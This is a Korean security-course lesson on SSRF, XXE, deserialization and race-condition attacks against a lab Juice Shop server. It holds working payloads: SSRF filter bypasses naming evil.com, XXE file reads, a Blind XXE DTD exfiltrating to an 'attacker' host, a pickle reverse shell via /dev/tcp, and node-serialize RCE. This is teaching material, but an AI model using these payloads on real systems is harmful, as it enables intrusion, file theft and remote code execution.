

# Week 04: 웹 고급 공격 — SSRF, XXE, 디시리얼라이제이션, Race Condition

## 학습 목표
- **SSRF(Server-Side Request Forgery)** 공격의 원리를 이해하고 내부 서비스 접근에 활용할 수 있다
- **XXE(XML External Entity)** 공격으로 서버 파일을 읽고 SSRF를 유발할 수 있다
- **디시리얼라이제이션(Deserialization)** 취약점의 원리를 이해하고 RCE 체인을 구성할 수 있다
- **Race Condition** 공격의 원리를 이해하고 TOCTOU 취약점을 익스플로잇할 수 있다
- 각 취약점에 대한 MITRE ATT&CK 매핑과 방어 전략을 설명할 수 있다
- OWASP Top 10과 고급 웹 취약점의 관계를 이해하고 분류할 수 있다
- Burp Suite, curl 등을 활용하여 고급 웹 공격을 수행할 수 있다

## 전제 조건
- HTTP 프로토콜(요청, 응답, 헤더, 쿠키)을 완전히 이해하고 있어야 한다
- 기본 웹 취약점(SQLi, XSS, CSRF)을 알고 있어야 한다
- curl을 이용한 HTTP 요청 전송에 익숙해야 한다
- JSON, XML 데이터 형식을 이해하고 있어야 한다
- Python 기초 문법을 이해하고 있어야 한다

## 실습 환경

| 호스트 | IP | 역할 | 접속 |
|--------|-----|------|------|
| bastion | 10.20.30.201 | 실습 기지 (공격 출발점) | `ssh ccc@10.20.30.201` |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹 서버 (Juice Shop 대상) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM 모니터링 | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:35 | 고급 웹 취약점 개론 + SSRF 이론 | 강의 |
| 0:35-1:10 | SSRF 실습 + XXE 이론·실습 | 실습 |
| 1:10-1:20 | 휴식 | - |
| 1:20-1:55 | 디시리얼라이제이션 이론·실습 | 실습 |
| 1:55-2:30 | Race Condition 이론·실습 | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | 종합 공격 체인 실습 | 실습 |
| 3:10-3:30 | ATT&CK 매핑 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: 고급 웹 취약점 개론과 SSRF (35분)

## 1.1 OWASP Top 10과 고급 취약점

OWASP Top 10(2021)에서 고급 웹 취약점의 위치를 확인한다.

| 순위 | 카테고리 | 관련 고급 취약점 | 이번 주 실습 |
|------|---------|----------------|:---:|
| A01 | Broken Access Control | SSRF, IDOR | ✓ |
| A03 | Injection | XXE, SQLi, Command Injection | ✓ |
| A04 | Insecure Design | Race Condition | ✓ |
| A05 | Security Misconfiguration | XXE (파서 설정) | ✓ |
| A08 | Software and Data Integrity | 디시리얼라이제이션 | ✓ |

## 1.2 SSRF (Server-Side Request Forgery)

SSRF는 **서버가 공격자가 지정한 URL로 HTTP 요청을 보내도록** 유도하는 공격이다. 서버를 프록시처럼 악용하여 내부 네트워크에 접근한다.

### SSRF 동작 원리

```
[정상 요청]
사용자 → 서버: "이 URL의 이미지 가져와"
서버 → 외부 URL: GET https://external.com/image.png
서버 → 사용자: 이미지 반환

[SSRF 공격]
공격자 → 서버: "이 URL의 이미지 가져와"
서버 → 내부 서비스: GET http://127.0.0.1:8080/admin
서버 → 공격자: 내부 관리자 페이지 반환!
```

### SSRF 공격 대상

| 대상 | URL 예시 | 획득 가능 정보 |
|------|---------|--------------|
| localhost | `http://127.0.0.1:8080/admin` | 내부 관리자 페이지 |
| 내부 네트워크 | `http://10.20.30.100:9200/` | Elasticsearch 데이터 |
| 클라우드 메타데이터 | `http://169.254.169.254/latest/meta-data/` | AWS IAM 크레덴셜 |
| 파일 읽기 | `file:///etc/passwd` | 시스템 파일 |
| 다른 프로토콜 | `gopher://internal:25/` | SMTP 상호작용 |

### SSRF 유형

| 유형 | 설명 | 탐지 난이도 |
|------|------|-----------|
| **Basic SSRF** | 응답이 공격자에게 직접 반환됨 | 쉬움 |
| **Blind SSRF** | 응답은 보이지 않지만 부수 효과(DNS 등) 확인 | 중간 |
| **Semi-blind SSRF** | 에러 메시지나 시간 차이로 추론 | 어려움 |

### MITRE ATT&CK 매핑

| 기법 ID | 이름 | 설명 |
|---------|------|------|
| T1190 | Exploit Public-Facing Application | SSRF로 초기 접근 |
| T1046 | Network Service Discovery | SSRF로 내부 스캔 |
| T1552.005 | Cloud Instance Metadata API | 클라우드 메타데이터 |

## 실습 1.1: SSRF 기본 — 내부 서비스 접근

> **실습 목적**: SSRF 취약점을 이용하여 외부에서 접근 불가능한 내부 서비스에 접근한다
>
> **배우는 것**: URL 파라미터를 조작하여 서버가 내부 요청을 보내도록 유도하는 기법을 배운다
>
> **결과 해석**: 내부 서비스의 응답이 반환되면 SSRF 공격이 성공한 것이다
>
> **실전 활용**: 클라우드 환경에서 메타데이터 서비스 접근, 내부 API 접근에 활용한다
>
> **명령어 해설**: curl로 URL 파라미터에 내부 주소를 삽입하여 SSRF를 유발한다
>
> **트러블슈팅**: 응답이 없으면 서버의 아웃바운드 요청 허용 여부를 확인한다

```bash
# SSRF 시나리오 시뮬레이션
echo "=== SSRF 취약 엔드포인트 시뮬레이션 ==="

# 취약한 서버 시뮬레이션 (Python으로 간이 구현)
cat > /tmp/ssrf_demo.py << 'PYEOF'
import http.server
import urllib.request
import json
import sys

class SSRFHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path.startswith('/fetch?url='):
            url = self.path.split('url=', 1)[1]
            try:
                # 취약! 사용자 입력 URL을 그대로 요청
                resp = urllib.request.urlopen(url, timeout=3)
                data = resp.read().decode('utf-8', errors='replace')[:500]
                self.send_response(200)
                self.send_header('Content-Type', 'text/plain')
                self.end_headers()
                self.wfile.write(data.encode())
            except Exception as e:
                self.send_response(500)
                self.end_headers()
                self.wfile.write(str(e).encode())
        else:
            self.send_response(404)
            self.end_headers()
    def log_message(self, format, *args):
        pass

if __name__ == '__main__':
    server = http.server.HTTPServer(('0.0.0.0', 7777), SSRFHandler)
    print("SSRF Demo Server on :7777")
    server.handle_request()  # 1개 요청만 처리 후 종료
    server.handle_request()
    server.handle_request()
PYEOF

# 취약 서버 시작
python3 /tmp/ssrf_demo.py &
DEMO_PID=$!
sleep 1

# SSRF 공격 1: 내부 서비스 접근
echo "--- SSRF: 내부 Juice Shop 접근 ---"
curl -s "http://localhost:7777/fetch?url=http://10.20.30.80:3000/" 2>/dev/null | head -5

echo ""
echo "--- SSRF: 내부 SubAgent API 접근 ---"
curl -s "http://localhost:7777/fetch?url=http://10.20.30.80:8002/" 2>/dev/null | head -5

echo ""
echo "--- SSRF: 로컬 파일 읽기 시도 ---"
curl -s "http://localhost:7777/fetch?url=file:///etc/hostname" 2>/dev/null

# 정리
kill $DEMO_PID 2>/dev/null
rm -f /tmp/ssrf_demo.py
echo ""
echo "[SSRF 시뮬레이션 완료]"
```

## 실습 1.2: SSRF 우회 기법

> **실습 목적**: SSRF 필터(블랙리스트)를 우회하는 다양한 기법을 실습한다
>
> **배우는 것**: IP 인코딩, DNS rebinding, URL 파서 차이 등 SSRF 필터 우회 기법을 배운다
>
> **결과 해석**: 필터를 우회하여 내부 서비스에 접근하면 우회 성공이다
>
> **실전 활용**: 실제 애플리케이션의 SSRF 보호를 우회하는 데 활용한다
>
> **명령어 해설**: 127.0.0.1을 다양한 형태로 표현하여 블랙리스트를 우회한다
>
> **트러블슈팅**: 특정 인코딩이 동작하지 않으면 서버의 URL 파싱 라이브러리 차이를 확인한다

```bash
# SSRF 우회 기법 목록
echo "=== SSRF 필터 우회 기법 ==="
echo ""

echo "1. IP 주소 대체 표현법 (127.0.0.1 우회)"
echo "   127.0.0.1       → 원본"
echo "   2130706433       → 십진수"
echo "   0x7f000001       → 16진수"
echo "   0177.0.0.1       → 8진수"
echo "   127.0.0.1.nip.io → DNS rebinding 서비스"
echo "   0              → 0.0.0.0 (일부 시스템)"
echo "   localhost       → DNS 해석"
echo "   [::1]           → IPv6 루프백"

echo ""
echo "2. URL 파서 혼동"
echo "   http://evil.com@127.0.0.1/   → userinfo에 도메인 삽입"
echo "   http://127.0.0.1#@evil.com   → 프래그먼트 혼동"
echo "   http://127.0.0.1:80@evil.com → 포트 혼동"
echo "   http://127.0.0.1%2509/admin  → 탭 문자 삽입"

echo ""
echo "3. 리다이렉션 활용"
echo "   공격자 서버가 302 리다이렉트 → http://127.0.0.1/"
echo "   서버가 리다이렉트를 따라가면 필터 우회"

echo ""
echo "=== 실제 우회 테스트 ==="
# 십진수 IP 변환
python3 -c "
import struct, socket
ip = '10.20.30.80'
packed = socket.inet_aton(ip)
decimal = struct.unpack('!I', packed)[0]
print(f'{ip} → 십진수: {decimal}')
print(f'{ip} → 16진수: 0x{decimal:08x}')
octal_parts = '.'.join(f'0{int(p):o}' for p in ip.split('.'))
print(f'{ip} → 8진수: {octal_parts}')
"
```

---

# Part 2: XXE (XML External Entity) 공격 (35분)

## 2.1 XXE 공격 원리

XXE는 XML 파서가 **외부 엔티티(External Entity)를 처리**할 때 발생하는 취약점이다. XML DTD(Document Type Definition)에 외부 파일이나 URL 참조를 삽입하여 서버의 파일을 읽거나 SSRF를 유발한다.

### XXE 기본 구조

```xml
<!-- 정상 XML -->
<user>
  <name>John</name>
  <email>john@example.com</email>
</user>

<!-- XXE 공격 XML -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&xxe;</name>
  <email>john@example.com</email>
</user>
```

### XXE 공격 유형

| 유형 | DTD 내용 | 효과 | ATT&CK |
|------|---------|------|--------|
| **파일 읽기** | `SYSTEM "file:///etc/passwd"` | 서버 파일 내용 노출 | T1005 |
| **SSRF** | `SYSTEM "http://internal:8080/"` | 내부 서비스 접근 | T1190 |
| **DoS** | 재귀 엔티티 (Billion Laughs) | 메모리 소진 | T1499 |
| **Blind XXE** | `SYSTEM "http://attacker/exfil"` | OOB 데이터 유출 | T1048 |
| **RCE** (PHP) | `SYSTEM "expect://id"` | 명령 실행 | T1059 |

### Billion Laughs (XML Bomb)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- ... 반복 → 기하급수적으로 확장 → 메모리 폭발 -->
]>
<root>&lol9;</root>
```

## 실습 2.1: XXE 파일 읽기 시뮬레이션

> **실습 목적**: XXE 취약점을 통해 서버의 시스템 파일을 읽는 공격을 체험한다
>
> **배우는 것**: XML DTD의 외부 엔티티 선언과 파서의 처리 과정을 이해한다
>
> **결과 해석**: /etc/passwd 등 시스템 파일의 내용이 응답에 포함되면 XXE 성공이다
>
> **실전 활용**: API 서버, SOAP 서비스, XML 업로드 기능에서 XXE를 테스트한다
>
> **명령어 해설**: Content-Type: application/xml로 XML 데이터를 전송한다
>
> **트러블슈팅**: XML 파서가 외부 엔티티를 비활성화했으면 Blind XXE로 전환한다

```bash
# XXE 취약 XML 파서 시뮬레이션
cat > /tmp/xxe_demo.py << 'PYEOF'
from http.server import BaseHTTPRequestHandler, HTTPServer
import xml.etree.ElementTree as ET
from xml.sax.handler import ContentHandler
import xml.sax

class XXEHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        body = self.rfile.read(length).decode()

        self.send_response(200)
        self.send_header('Content-Type', 'text/plain')
        self.end_headers()

        # 안전한 파서 (XXE 차단)
        try:
            root = ET.fromstring(body)
            name = root.find('name')
            result = f"Parsed (safe): name={name.text if name is not None else 'N/A'}\n"
            result += "Note: ElementTree은 기본적으로 XXE가 비활성화됨\n"
        except Exception as e:
            result = f"Parse error: {e}\n"

        self.wfile.write(result.encode())

    def log_message(self, format, *args):
        pass

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 7778), XXEHandler)
    for _ in range(3):
        server.handle_request()
PYEOF

python3 /tmp/xxe_demo.py &
XXE_PID=$!
sleep 1

# XXE 페이로드 테스트
echo "=== 1. 정상 XML 요청 ==="
curl -s -X POST http://localhost:7778/ \
  -H "Content-Type: application/xml" \
  -d '<user><name>John</name></user>'

echo ""
echo "=== 2. XXE 파일 읽기 시도 ==="
curl -s -X POST http://localhost:7778/ \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><user><name>&xxe;</name></user>'

echo ""
echo "=== 3. XXE SSRF 시도 ==="
curl -s -X POST http://localhost:7778/ \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.20.30.80:3000/">]><user><name>&xxe;</name></user>'

kill $XXE_PID 2>/dev/null
rm -f /tmp/xxe_demo.py
echo ""
echo "[참고] Python ElementTree는 기본적으로 XXE를 차단함"
echo "[참고] 취약한 파서: PHP SimpleXML(기본), Java SAXParser(설정에 따라), libxml2(구버전)"
```

## 실습 2.2: Blind XXE — Out-of-Band 데이터 유출

> **실습 목적**: 응답에 데이터가 포함되지 않는 Blind XXE 환경에서 OOB 채널로 데이터를 유출한다
>
> **배우는 것**: 외부 DTD 로딩, HTTP 콜백을 이용한 Blind XXE 기법을 배운다
>
> **결과 해석**: 공격자 서버에 콜백 요청이 도착하면 Blind XXE가 성공한 것이다
>
> **실전 활용**: 대부분의 실제 XXE는 Blind 형태이므로 OOB 기법이 필수적이다
>
> **명령어 해설**: 외부 DTD 파일에 파라미터 엔티티를 정의하고 HTTP 콜백으로 데이터를 전송한다
>
> **트러블슈팅**: OOB 요청이 도착하지 않으면 서버의 아웃바운드 HTTP가 차단된 것이다

```bash
# Blind XXE OOB 기법 설명
cat << 'BLIND_XXE'
=== Blind XXE — Out-of-Band Exfiltration ===

1단계: 공격자 서버에 악성 DTD 파일 호스팅
  evil.dtd:
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker:8888/?data=%file;'>">
  %eval;
  %exfil;

2단계: XXE 페이로드 전송
  <?xml version="1.0"?>
  <!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://attacker:8888/evil.dtd">
    %xxe;
  ]>
  <user><name>test</name></user>

3단계: 서버가 evil.dtd를 로딩하고 실행
  → /etc/hostname 내용을 HTTP 쿼리 파라미터로 전송
  → 공격자 서버 로그: GET /?data=web-server HTTP/1.1

결과: 서버 응답에는 아무것도 없지만, 공격자 서버에 데이터 도착
BLIND_XXE

echo ""
echo "=== Blind XXE 시뮬레이션 (로컬) ==="
# 콜백 서버
mkdir -p /tmp/xxe_oob
cd /tmp/xxe_oob && python3 -m http.server 8889 &
OOB_PID=$!
sleep 1

# evil.dtd 생성
echo '<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY exfil SYSTEM '"'"'http://10.20.30.201:8889/?data=%file;'"'"'>">
%eval;' > /tmp/xxe_oob/evil.dtd

echo "evil.dtd 호스팅 중 (포트 8889)"
echo "[실제 공격에서는 이 DTD를 통해 데이터가 유출됨]"

kill $OOB_PID 2>/dev/null
rm -rf /tmp/xxe_oob
```

---

# Part 3: 디시리얼라이제이션 공격 (35분)

## 3.1 디시리얼라이제이션 취약점 원리

직렬화(Serialization)는 객체를 바이트 스트림으로 변환하는 것이고, 역직렬화(Deserialization)는 그 반대이다. **신뢰할 수 없는 데이터를 역직렬화**하면 임의 코드가 실행될 수 있다.

```
[정상 흐름]
객체 → 직렬화 → 전송/저장 → 역직렬화 → 원래 객체

[공격 흐름]
공격자가 조작한 직렬화 데이터 → 역직렬화 → 악성 코드 실행!
```

### 언어별 디시리얼라이제이션 취약점

| 언어 | 직렬화 형식 | 대표 CVE | 위험도 |
|------|-----------|---------|--------|
| Java | ObjectInputStream | CVE-2015-4852 (WebLogic) | 매우 높음 |
| PHP | unserialize() | CVE-2018-19518 | 높음 |
| Python | pickle.loads() | CVE-2019-9946 | 높음 |
| .NET | BinaryFormatter | CVE-2020-0688 (Exchange) | 매우 높음 |
| Node.js | node-serialize | CVE-2017-5941 | 높음 |
| Ruby | Marshal.load() | - | 높음 |

### Java 디시리얼라이제이션 체인 (Gadget Chain)

```
[사용자 입력: 조작된 직렬화 데이터]
     ↓ ObjectInputStream.readObject()
[PriorityQueue.readObject()]
     ↓ comparator 호출
[TransformingComparator.compare()]
     ↓ transformer 체인 실행
[ChainedTransformer.transform()]
     ↓
[InvokerTransformer.transform("exec", "calc.exe")]
     ↓
[Runtime.getRuntime().exec("calc.exe")]
     → RCE 달성!
```

## 실습 3.1: Python pickle 디시리얼라이제이션 RCE

> **실습 목적**: Python pickle 모듈의 역직렬화 취약점으로 임의 명령을 실행한다
>
> **배우는 것**: pickle의 __reduce__ 메서드를 악용한 RCE 체인 구성 방법을 배운다
>
> **결과 해석**: pickle.loads() 실행 시 의도하지 않은 시스템 명령이 실행되면 RCE 성공이다
>
> **실전 활용**: Flask/Django 세션, Redis 캐시, ML 모델 파일 등에서 pickle 역직렬화가 사용된다
>
> **명령어 해설**: __reduce__는 pickle이 객체 복원 시 호출하는 메서드로, 여기에 임의 함수를 지정할 수 있다
>
> **트러블슈팅**: 보안 pickle(restricted unpickler)이 적용된 경우 기본 공격이 차단된다

```bash
# Python pickle RCE 시뮬레이션
python3 << 'PYEOF'
import pickle
import base64
import os

print("=== Python Pickle 디시리얼라이제이션 RCE ===")
print()

# 악성 pickle 페이로드 생성
class MaliciousPickle:
    def __reduce__(self):
        # pickle.loads() 시 os.system("id") 실행
        return (os.system, ("echo '[RCE] 명령 실행 성공: $(id)'",))

# 직렬화
payload = pickle.dumps(MaliciousPickle())
b64_payload = base64.b64encode(payload).decode()

print(f"1. 악성 pickle 페이로드 (base64):")
print(f"   {b64_payload[:60]}...")
print(f"   크기: {len(payload)} 바이트")
print()

# 역직렬화 (취약한 서버가 하는 것)
print("2. pickle.loads() 실행 결과:")
result = pickle.loads(payload)
print()

# 더 위험한 예: 리버스 셸
print("3. 리버스 셸 페이로드 (실행하지 않음):")
class ReverseShell:
    def __reduce__(self):
        return (os.system, ("bash -c 'bash -i >& /dev/tcp/10.20.30.201/4444 0>&1'",))

rev_payload = pickle.dumps(ReverseShell())
print(f"   base64: {base64.b64encode(rev_payload).decode()[:60]}...")
print()

print("=== 방어 방법 ===")
print("1. pickle.loads()에 신뢰할 수 없는 데이터 전달 금지")
print("2. JSON 등 안전한 직렬화 형식 사용")
print("3. RestrictedUnpickler로 허용 클래스 화이트리스트")
print("4. 입력 데이터 무결성 검증 (HMAC 서명)")
PYEOF
```

## 실습 3.2: Node.js 디시리얼라이제이션 (Juice Shop 관련)

> **실습 목적**: Node.js 환경에서 디시리얼라이제이션 취약점의 발생 원리를 이해한다
>
> **배우는 것**: node-serialize 패키지의 IIFE(즉시 실행 함수) 주입 기법을 배운다
>
> **결과 해석**: 역직렬화 시 IIFE가 실행되면 RCE가 달성된 것이다
>
> **실전 활용**: Express 세션, 쿠키 값에 직렬화된 객체를 사용하는 Node.js 앱에서 활용한다
>
> **명령어 해설**: {"rce":"_$$ND_FUNC$$_function(){...}()"} 형식으로 IIFE를 주입한다
>
> **트러블슈팅**: node-serialize가 설치되지 않았으면 npm install node-serialize

```bash
# Node.js 디시리얼라이제이션 원리 설명
cat << 'NODEJS_DESER'
=== Node.js 디시리얼라이제이션 RCE ===

취약 코드:
  var serialize = require('node-serialize');
  var payload = req.cookies.profile;  // 사용자 쿠키에서 읽음
  var obj = serialize.unserialize(payload);  // 취약!

공격 페이로드:
  {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('id', function(err,stdout){/* 결과 */})}()"}

                    ^^^^^^^^^^^^^^^^^
                    IIFE - 즉시 실행 함수

과정:
  1. 공격자가 쿠키에 조작된 직렬화 데이터 삽입
  2. 서버가 쿠키를 unserialize()로 역직렬화
  3. _$$ND_FUNC$$_ 마커로 함수 복원
  4. () 로 즉시 실행 → RCE

대표 CVE: CVE-2017-5941 (node-serialize unserialize() RCE)
NODEJS_DESER

echo ""
echo "=== Juice Shop 관련 체크 ==="
# Juice Shop이 사용하는 쿠키 확인
curl -s -D- http://10.20.30.80:3000/ 2>/dev/null | grep -i "set-cookie" || echo "쿠키 없음"
```

---

# Part 4: Race Condition과 종합 공격 체인 (35분)

## 4.1 Race Condition 공격

Race Condition은 **두 개 이상의 프로세스/스레드가 공유 자원에 동시 접근**할 때 발생하는 취약점이다. 웹 애플리케이션에서는 주로 TOCTOU(Time of Check to Time of Use) 문제로 나타난다.

### Race Condition 유형

| 유형 | 설명 | 예시 |
|------|------|------|
| **TOCTOU** | 확인과 사용 사이 시간차 | 잔액 확인 → 출금 (동시 요청) |
| **Limit Bypass** | 횟수 제한 우회 | 쿠폰 1회 사용 → 동시에 100회 |
| **Double Spending** | 이중 지출 | 포인트 동시 사용 |
| **File Race** | 파일 접근 경쟁 | 임시 파일 심볼릭 링크 |

### TOCTOU 동작 원리

```
[정상 요청 (순차)]
요청1: 잔액 확인(1000원) → 출금(500원) → 잔액(500원)
요청2: 잔액 확인(500원) → 출금(500원) → 잔액(0원)

[Race Condition (동시)]
요청1: 잔액 확인(1000원) →        → 출금(500원) → 잔액(500원)
요청2:     잔액 확인(1000원) →         → 출금(500원) → 잔액(500원)
    (둘 다 1000원을 봄!)          결과: 500원만 있는데 1000원 출금!
```

## 실습 4.1: Race Condition — 동시 요청 공격

> **실습 목적**: HTTP 동시 요청으로 서버의 Race Condition 취약점을 익스플로잇한다
>
> **배우는 것**: curl/Python을 이용한 병렬 요청 전송과 Race Condition 발견 기법을 배운다
>
> **결과 해석**: 동시 요청으로 제한을 우회하거나 이중 처리가 발생하면 Race Condition이다
>
> **실전 활용**: 할인 쿠폰, 투표, 포인트 사용, 파일 업로드 등에서 Race Condition을 테스트한다
>
> **명령어 해설**: xargs -P로 병렬 실행, Python threading으로 동시 HTTP 요청을 전송한다
>
> **트러블슈팅**: 서버가 느리면 동시성이 보장되지 않아 Race가 재현되지 않을 수 있다

```bash
# Race Condition 시뮬레이션
python3 << 'PYEOF'
import threading
import time
import http.server
import json

# 취약한 서버: 쿠폰 시스템
coupon_used = {"SAVE50": False}
balance = {"amount": 1000}
results = []

class VulnerableHandler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        body = json.loads(self.rfile.read(length))
        coupon = body.get('coupon', '')

        # TOCTOU 취약! 확인과 사용 사이에 시간차
        if coupon in coupon_used and not coupon_used[coupon]:
            time.sleep(0.01)  # 이 작은 지연이 Race Condition 유발
            coupon_used[coupon] = True
            balance["amount"] -= 500  # 500원 할인
            response = {"status": "success", "discount": 500, "balance": balance["amount"]}
        else:
            response = {"status": "already_used"}

        self.send_response(200)
        self.send_header('Content-Type', 'application/json')
        self.end_headers()
        self.wfile.write(json.dumps(response).encode())
        results.append(response)

    def log_message(self, format, *args):
        pass

print("=== Race Condition 시뮬레이션 ===")
print(f"초기 잔액: {balance['amount']}원")
print(f"쿠폰 SAVE50: 500원 할인 (1회 사용)")
print()

# 서버 시작
server = http.server.HTTPServer(('localhost', 7779), VulnerableHandler)
server_thread = threading.Thread(target=lambda: [server.handle_request() for _ in range(10)])
server_thread.daemon = True
server_thread.start()
time.sleep(0.5)

# 동시 요청 전송
import urllib.request

def send_coupon():
    try:
        req = urllib.request.Request(
            'http://localhost:7779/',
            data=json.dumps({"coupon": "SAVE50"}).encode(),
            headers={"Content-Type": "application/json"},
            method='POST'
        )
        resp = urllib.request.urlopen(req, timeout=5)
        return json.loads(resp.read())
    except Exception as e:
        return {"status": "error", "msg": str(e)}

threads = []
thread_results = [None] * 5
def worker(idx):
    thread_results[idx] = send_coupon()

print("5개 동시 요청 전송...")
for i in range(5):
    t = threading.Thread(target=worker, args=(i,))
    threads.append(t)

# 동시 시작
for t in threads:
    t.start()
for t in threads:
    t.join()

print()
print("=== 결과 ===")
success_count = 0
for i, r in enumerate(thread_results):
    print(f"  요청 {i+1}: {r}")
    if r and r.get('status') == 'success':
        success_count += 1

print(f"\n성공 횟수: {success_count} (1회여야 정상, 2회 이상이면 Race Condition!)")
print(f"최종 잔액: {balance['amount']}원 (500원이어야 정상)")
if success_count > 1:
    print("[!] Race Condition 발생! 쿠폰이 여러 번 사용됨")
else:
    print("[OK] Race Condition 미발생 (타이밍에 따라 다를 수 있음)")
PYEOF
```

## 실습 4.2: 종합 공격 체인 — SSRF → 파일 읽기 → 크레덴셜 획득

> **실습 목적**: 여러 취약점을 체인으로 연결하여 최종 목표를 달성하는 고급 공격 시나리오를 실습한다
>
> **배우는 것**: SSRF, 파일 읽기, 크레덴셜 탈취를 연결하는 공격 체인 설계 기법을 배운다
>
> **결과 해석**: 각 단계의 출력이 다음 단계의 입력이 되어 최종적으로 크레덴셜을 획득하면 성공이다
>
> **실전 활용**: 실제 모의해킹에서 단일 취약점이 아닌 체인을 구성하여 권한을 확대한다
>
> **명령어 해설**: 각 단계의 curl 요청이 이전 단계의 결과를 활용한다
>
> **트러블슈팅**: 체인의 특정 단계가 실패하면 해당 단계만 분리하여 디버깅한다

```bash
echo "============================================================"
echo "       종합 공격 체인: SSRF → 파일 읽기 → 크레덴셜 획득        "
echo "============================================================"

echo ""
echo "[Chain 1] 웹 서버 정보 수집"
echo "--- 서비스 확인 ---"
curl -s -o /dev/null -w "Juice Shop: HTTP %{http_code}\n" http://10.20.30.80:3000/ 2>/dev/null
curl -s -o /dev/null -w "SubAgent: HTTP %{http_code}\n" http://10.20.30.80:8002/ 2>/dev/null

echo ""
echo "[Chain 2] SSRF 포인트 탐색"
echo "--- URL 파라미터가 있는 엔드포인트 탐색 ---"
for path in "/api/Products" "/api/Challenges" "/rest/products/search?q=test" "/profile/image/url"; do
  CODE=$(curl -s -o /dev/null -w "%{http_code}" "http://10.20.30.80:3000$path" 2>/dev/null)
  echo "  $path → HTTP $CODE"
done

echo ""
echo "[Chain 3] 내부 서비스 열거 (SSRF 또는 직접)"
for port in 22 80 3000 5432 8002 9200 9300; do
  RESULT=$(timeout 2 bash -c "echo >/dev/tcp/10.20.30.80/$port" 2>/dev/null && echo "open" || echo "closed")
  echo "  10.20.30.80:$port → $RESULT"
done

echo ""
echo "[Chain 4] 민감 파일 접근 시도"
# Juice Shop의 알려진 민감 경로
curl -s http://10.20.30.80:3000/ftp 2>/dev/null | head -5

echo ""
echo "[Chain 5] 크레덴셜 검색"
# 공개 API에서 사용자 정보
curl -s http://10.20.30.80:3000/api/Users/ 2>/dev/null | python3 -c "
import sys,json
try:
    data=json.load(sys.stdin)
    users = data.get('data', [])
    print(f'사용자 수: {len(users)}')
    for u in users[:3]:
        print(f'  - {u.get(\"email\",\"?\")} (role: {u.get(\"role\",\"?\")})')
except: print('사용자 API 접근 불가')" 2>/dev/null

echo ""
echo "============================================================"
echo "  체인 완료: 각 단계의 결과가 다음 단계의 입력이 됨            "
echo "============================================================"
```

---

## 검증 체크리스트

| 번호 | 검증 항목 | 확인 명령 | 기대 결과 |
|------|---------|----------|----------|
| 1 | SSRF 원리 이해 | 구두 설명 | 서버→내부 요청 설명 |
| 2 | SSRF 우회 기법 | IP 변환 | 127.0.0.1 대체 표현 3개 |
| 3 | XXE 기본 구조 | XML 작성 | 외부 엔티티 선언 가능 |
| 4 | Blind XXE 원리 | 설명 | OOB 채널 구성 |
| 5 | pickle RCE | Python 실행 | __reduce__ 명령 실행 |
| 6 | Node.js 디시리얼 | 설명 | IIFE 주입 원리 |
| 7 | Race Condition | 시뮬레이션 | TOCTOU 재현 |
| 8 | 공격 체인 | 종합 실습 | 5단계 체인 완료 |
| 9 | OWASP 매핑 | 분류표 | 4개 취약점 매핑 |
| 10 | ATT&CK 매핑 | ID 제시 | T1190, T1005 등 |

---

## 과제

### 과제 1: SSRF 공격 맵 작성 (개인)
실습 환경(10.20.30.0/24)에서 SSRF를 통해 접근 가능한 내부 서비스의 전체 맵을 작성하라. 각 서비스의 포트, 배너, 버전, 취약점 가능성을 포함할 것.

### 과제 2: 디시리얼라이제이션 방어 가이드 (팀)
Python(pickle), Java(ObjectInputStream), Node.js(node-serialize) 각각에 대한 디시리얼라이제이션 방어 가이드를 작성하라. 안전한 대안, 입력 검증, 라이브러리 권고를 포함할 것.

### 과제 3: 종합 공격 체인 설계 (팀)
SSRF → XXE → 디시리얼라이제이션 → Race Condition 4가지를 연결하는 가상 공격 시나리오를 설계하라. 각 단계의 전제 조건, 페이로드, 기대 결과를 포함할 것.

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Burp Suite Community
> **역할:** 웹 프록시 기반 수동/반자동 취약점 점검 도구  
> **실행 위치:** `작업 PC → web (10.20.30.80:3000)`  
> **접속/호출:** GUI `burpsuite`, CA 인증서 신뢰 필요 (`http://burp`)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `Proxy → HTTP history` | 모든 캡처된 요청/응답 |
| `Intruder` | 페이로드 페이즈·위치 기반 자동화 |
| `Repeater` | 단건 요청 수동 반복 |

**핵심 설정·키**

- `Proxy listener 127.0.0.1:8080` — 브라우저 프록시 포트
- `Target → Scope` — in-scope 호스트만 처리

